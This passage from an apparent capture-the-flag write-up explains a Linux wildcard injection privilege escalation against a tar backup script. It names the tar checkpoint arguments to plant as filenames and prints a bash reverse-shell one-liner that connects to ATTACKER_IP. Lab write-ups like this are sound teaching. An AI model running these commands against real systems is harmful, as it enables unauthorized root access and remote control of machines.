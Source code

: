 Looking at [GTFOBins](https://gtfobins.github.io/gtfobins/tar/), we see that we can actually exploit `tar` to spawn a privileged shell: 

![screenshot29](../assets/images/skynet/screenshot29.png)

In our case, we need to add in the following arguments to the `tar` command to do so:

* --checkpoint=1
* --checkpoint-action=exec=/bin/sh

The wildcard operator (*) actually allows us to add those arguments even though we do not have direct write permissions to the backup.sh file. This type of attack is called a [wildcard injection attack](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/).

---

**Explanation of Wildcard Injection Attack**

Assume we have a directory with the following files: a.txt, b.txt, c.txt.

If we do a `rm *`, we will delete all of the files within the directory. However, what is actually happening is that the `*` is being expanded to list all of the files. Hence, the actual command being run is `rm a.txt b.txt c.txt`. 

Hence, if we have a file called -rf, the actual command being run will be `rm -rf a.txt b.txt c.txt`. The -rf filename will actually end up being interpreted as a command-line argument! 

With the correct program, this attack can be used to escalate privileges.

---

To execute this attack, we need to create two files: '**--checkpoint=1**' and '**--checkpoint-action=exec=bash\ shell.sh**' in the /var/www/html directory. 

Before that, let's first create a bash script that spawns a shell. This bash script will be called shell.sh and will be also be in /var/www/html.

```
echo $'#!/bin/bash\nbash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' > shell.sh
```

We use `echo` to write the script as `vim` and `nano` were unfortunately not cooperating with the terminal.
